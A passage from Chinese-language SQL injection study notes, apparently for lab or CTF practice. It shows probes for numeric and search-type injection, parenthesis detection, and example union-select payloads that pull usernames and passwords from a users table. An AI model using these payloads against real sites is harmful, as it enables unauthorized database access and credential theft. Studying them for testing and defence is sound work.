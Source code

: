    ```mysql
   ?id=2-1
   ```

   回显正常，则该地方是**数值型注入**

3. **搜索型注入**

   1. 搜索keywords‘，如果出错的话，有90%的可能性存在漏洞；

   2. 搜索 keywords%，如果同样出错的话，就有95%的可能性存在漏洞；

   3. 搜索keywords% 'and 1=1 and '%'='（这个语句的功能就相当于普通SQL注入的 and 1=1）看返回的情况

   4. 搜索keywords% 'and 1=2 and '%'='（这个语句的功能就相当于普通SQL注入的 and 1=2）看返回的情况

   5. 根据两次的返回情况来判断是不是搜索型文本框注入了

      下面方法也可以测试：

      ```
      'and 1=1 and '%'='
      
      %' and 1=1--'
      
      %' and 1=1 and '%'='
      ```

      

例题：payload

```
?name= ' order by 3 --+
?name= ' union select 1,username,password from users --+


?name=%' order by 3 and'%'=' --+
?name= %') union select username,password from users --+
```

### 第1.5步：判断是否有小括号

**步骤1：**注入类型

`1`和`1"`正常回显，`1'`报错，判断为字符型，但是**还要判断是否有小括号**。

判断小括号有几种方法：

1. `2'&&'1'='1`

- 若查询语句为`where id='$id'`，查询时是`where id='2'&&'1'='1'`，结果是`where id='2'`，回显会是`id=2`。
- 若查询语句为`where id=('$id')`，查询时是`where id=('2'&&'1'='1')`，MySQL 将`'2'`作为了 Bool 值，结果是`where id=('1')`，回显会是`id=1`。

1. `1')||'1'=('1`
    若查询语句有小括号正确回显，若无小括号错误回显（无回显）。



### 第二步 判断有几列

